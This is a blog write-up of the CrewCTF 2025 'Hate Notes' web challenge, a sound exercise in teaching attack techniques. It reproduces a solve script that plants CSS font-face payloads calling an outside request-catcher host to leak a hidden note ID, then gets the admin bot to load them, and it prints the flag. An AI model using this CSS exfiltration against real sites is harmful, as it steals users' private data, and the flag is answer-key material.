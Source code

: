+++
date = '2025-09-26T14:47:48+07:00'
title = 'Crew CTF 2025 - Hate Notes Write-up'
tags = ['Crew CTF 2025', 'CTFs']
description = 'Thinking outside the box gives you a clue (Love Notes), but do you have what it takes to solve it?'
draft = false

[cover]
  image = '/images/posts/crew-ctf-2025.webp'
  alt = 'Crew CTF 2025 - Hate Notes'
  caption = 'Crew CTF 2025 - Hate Notes'
  relative = false
+++

# Hate Notes — CrewCTF 2025

> **Room / Challenge:** Hate Notes (Web)

---

## Metadata

-   **Author:** `jameskaois`
-   **CTF:** CrewCTF 2025
-   **Challenge:** Hate Notes (web)
-   **Target / URL:** `https://hate-notes.chal.crewc.tf/`
-   **Difficulty:** `Medium`
-   **Points:** `426`
-   **Tags:** web, xss, sqli, auth, enumeration
-   **Date:** `21-09-2025`

---

## Goal

We have to get access to the flag `crew{...}` in the admin's note which the `bot` can view.

## My Solution

Love Notes and Hate Notes share 99% of their code, but Love Notes had many more solutions than Hate Notes: [My Solution for Love Notes](./love-notes.md)

You can download the source code of Hate Notes for further investigation: [Source Code](./hate-notes.tar.gz)

Hate Notes blocks all XSS Scripting or any kind of Javascript works in all pages of their website included the `/api/notes/<NOTE_ID>` which we can take advantage of in the Love Notes.

There is other solution for this we will do CSS Exfiltration, in this challenge font exfiltration is widely used to solve. You can take a look at this `solve.py` from the author `bubu` of the challenge. [Link](https://github.com/AlbertoFDR/CTF/blob/main/created-challs/CrewCTF-2025/hate-notes/solve.py)

```python
import json
import time
import random
import string
import requests

URL = "http://localhost:8000"

# Example:
#      f54dbf57-3317-4d6c-b903-bc56868fd728
EXFILTRATION = "https://player.requestcatcher.com/"
UID = ""

def register(user, password):
    r = requests.post(URL+'/api/auth/register', data={'email': user, 'password': password})


def login(user, password):
    r = requests.post(URL+'/api/auth/login', data={'email': user, 'password': password}, allow_redirects=False)
    return r.cookies["token"]


def first_payload(cookie):
    global UID
    payload = ""
    for letter in string.hexdigits[:16]:
        character = UID + letter
        payload += """
        @font-face {
          font-family: exfilFont"""+character+""";
          src: url(""" + EXFILTRATION +  """?id="""+character+""");
        }
        a[href^='/api/notes/""" + character + """'] {
          font-family: exfilFont"""+character+""";
        }
        """
    return json.loads(requests.post(URL+'/api/notes', cookies=cookie, data={'title':payload, 'content':' '}).text)["id"]

def second_payload(id, cookie):
    payload = f"""<link rel=stylesheet href="/static/api/notes/{id}"/>"""
    return json.loads(requests.post(URL+'/api/notes', cookies=cookie, data={'title':payload, 'content': ' '}).text)["id"]

def report(id, cookie):
    print(f"Reporting... {id}")
    r = requests.post(URL+'/report', cookies=cookie, data={'noteId': id})
    print(r.text)


USER = ''.join(random.choice(string.digits+string.ascii_letters) for _ in range(10))
PASSWORD = ''.join(random.choice(string.digits+string.ascii_letters) for _ in range(10))
print(f"USER {USER} -- PASSWORD {PASSWORD}")
register(USER, PASSWORD)
cookie = login(USER, PASSWORD)
while True:
    print(f"[X] UID: {UID}")
    id = first_payload({'token': cookie})
    id = second_payload(id, {'token': cookie})
    report(id, {'token': cookie})
    time.sleep(0.5)
    new_char = input("> ")
    UID += new_char
    if len(UID) in [8,13,18,23]:
        UID += '-'
```

In this method, we also use two note trick:

First note:

```
Title: @font-face (font exfiltration)
```

Second note:

```
Title: <link rel=stylesheet href="/static/api/notes/<FONT_EXFILTRATION_NOTE_ID>"/>
```

By this way, we can get the note id that contains the flag char by char. Then we can just simply type `/dashboard?reviewNote=<DISCOVERED_NOTE_ID>`.

You can get the flag `crew{now_you_solved_it_in_the_right_way_fBi4WVX1kGzPtavs}`.

## Lessons Learned

-   CSS Exfiltration
